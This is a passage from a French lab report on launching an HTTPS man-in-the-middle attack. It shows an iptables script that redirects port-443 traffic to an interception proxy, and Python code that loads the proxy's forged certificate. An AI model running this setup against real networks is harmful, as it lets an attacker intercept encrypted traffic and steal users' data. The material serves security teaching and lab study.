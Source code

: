 \subsubsection{Étape 2 : lancement de l'attaque}

Comme expliqué précédemment, pour lancer l'attaque, il faut exécuter le fichier  depuis immortal. Voici son contenu :

\begin{verbatim}
PROXY_PORT=4242

iptables -t nat -F
iptables -t nat -A PREROUTING -d 147.210.12.1 -p tcp --dport 443 -j REDIRECT --to-port $PROXY_PORT
/mnt/host/https-interception.py $PROXY_PORT
\end{verbatim}

On peut constater que les flux TCP à destination du port 443 (HTTPS) sont redirigées vers le port d'écoute du proxy qui est chargé d'analyser et traiter les requêtes.

Sur la machine immortal, nous lançons le script de l'attaque :

\begin{figure}[H]
  \caption{Lancement de l'attaque}
\end{figure}

\paragraph{Explication du code du proxy \\}

Le code du proxy est dans le fichier . Ce dernier est sensiblement le même que celui utilisé pour l'attaque SSLStrip.

\subparagraph{Contexte SSL du proxy \\}

Le proxy doit ajouter son certificat au contexte pour pouvoir le présenter au client :

\begin{verbatim}
def __listen(self):
	sock = socket.socket()
	context = ssl.create_default_context(ssl.Purpose.CLIENT_AUTH)
	context.load_cert_chain(certfile=PROXY_CERT, keyfile=PROXY_KEY)
	...
\end{verbatim}

